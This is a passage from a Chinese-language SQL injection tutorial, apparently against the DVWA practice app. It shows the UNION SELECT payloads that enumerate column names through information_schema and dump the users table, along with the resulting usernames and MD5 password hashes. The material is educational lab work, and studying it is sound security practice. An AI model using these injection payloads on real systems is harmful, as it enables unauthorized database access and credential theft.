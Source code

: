 **information_schema.tables**表示我们对**information_schema 数据库**中的**tables 表**进行查询，这个表中的**table_schema 字段**说明该记录的表对应哪个数据库，我们用**table_schema=database()**获取所有数据库为**database()**的表  
从而得到结果：guestbook 和 user

###### 6. 获取字段名

有了表名，我们就可以查看表中有哪些字段

```
输入“1’ union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=‘users’#”，返回如下

ID: （我输入的这一长串）
First name: admin
Surname: admin

ID: （我输入的这一长串）
First name: 1
Surname: avatar,failed_login,first_name,last_login,last_name,password,user,user_id
```

这里就和上面获取表名的原理大同小异了  
**information_schema.columns**表示从**information_schema 数据库**的**columns 表**中进行查询，并且这个表中的**table_name 字段**要等于我们目标的表名 users  
因为**columns 表**中存放了所有数据库字段的信息，而**table_name 字段**则表示该字段对应哪个表

结果发现 user 表中有很多字段但最让我们眼睛一亮的是**user 和 password 字段**

###### 7. 获取字段内容

有了表名，有了字段名，我们就可以获取其中的内容了

```
输入1' union select user,password from users#，结果如下

ID: 1' union select user,password from users#
First name: admin
Surname: admin

ID: 1' union select user,password from users#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: 1' union select user,password from users#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: 1' union select user,password from users#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1' union select user,password from users#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 1' union select user,password from users#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
